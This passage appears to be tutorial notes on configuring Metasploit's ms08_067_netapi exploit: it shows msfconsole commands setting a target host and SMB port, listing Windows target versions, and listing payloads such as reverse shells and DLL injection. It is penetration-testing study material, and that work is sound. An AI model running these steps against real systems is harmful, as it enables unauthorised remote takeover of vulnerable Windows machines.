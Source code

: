 ```
msf  exploit(ms08_067_netapi) > set RHOST 192.168.20.10
```

- setting remote port

```
msf  exploit(ms08_067_netapi) > set RPORT 445
```

- setting SMBPIPE

leave it at default

- exploit target

the target operating system and version. view available targets with the following command

```
msf  exploit(ms08_067_netapi) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic Targeting
   1   Windows 2000 Universal
   2   Windows XP SP0/SP1 Universal
   3   Windows XP SP2 English (AlwaysOn NX)
   4   Windows XP SP2 English (NX)
   5   Windows XP SP3 English (AlwaysOn NX)
   --snip--
   67  Windows 2003 SP2 Spanish (NX)
```

- setting the target

set the type of target machine

```
msf  exploit(ms08_067_netapi) > set target _<target_number>_
```

### Payloads

Payloads tell what the system should do after the exploit is successful

- find compatible payloads

use ths `show payloads` command to see compatible payloads

```
msf  exploit(ms08_067_netapi) > show payloads

Compatible Payloads
===================

   Name                                Disclosure Date  Rank    Description
   ----                                ---------------  ----    -----------
   generic/custom                                       normal  Custom Payload
   generic/debug_trap                                   normal  Generic x86 Debug Trap
   generic/shell_bind_tcp                               normal  Generic Command Shell, Bind TCP
                                                                  Inline
   generic/shell_reverse_tcp                            normal  Generic Command Shell, Reverse
                                                                  Inline
   generic/tight_loop                                   normal  Generic x86 Tight Loop
   windows/dllinject/bind_ipv6_tcp                      normal  Reflective DLL Injection, Bind
                                                                  TCP Stager (IPv6)
   windows/dllinject/bind_nonx_tcp                      normal  Reflective DLL Injection, Bind
                                                                  TCP Stager (No NX or Win7)
   windows/dllinject/bind_tcp                           normal  Reflective DLL Injection, Bind
```